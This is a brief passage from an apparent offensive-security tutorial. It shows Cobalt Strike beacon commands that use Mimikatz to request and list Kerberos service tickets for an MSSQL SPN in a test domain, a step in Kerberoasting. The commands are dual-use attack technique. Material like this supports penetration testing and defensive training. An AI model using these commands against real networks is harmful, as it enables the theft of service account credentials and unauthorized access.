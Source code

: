 ![QQ录屏20220925174424](../../.gitbook/assets/QQ录屏20220925174424.gif)

### Requesting Service Tickets Using Mimikatz Tool

Using Mimikatz to request service tickets for a specified SPN, requesting service tickets

```
beacon> mimikatz kerberos::ask /target:MSSQLSvc/sqlserver.sectest.com
```

![image-20220925185831758](../../.gitbook/assets/image-20220925185831758.png)

Listing service tickets.

```
beacon> mimikatz kerberos::list    
```
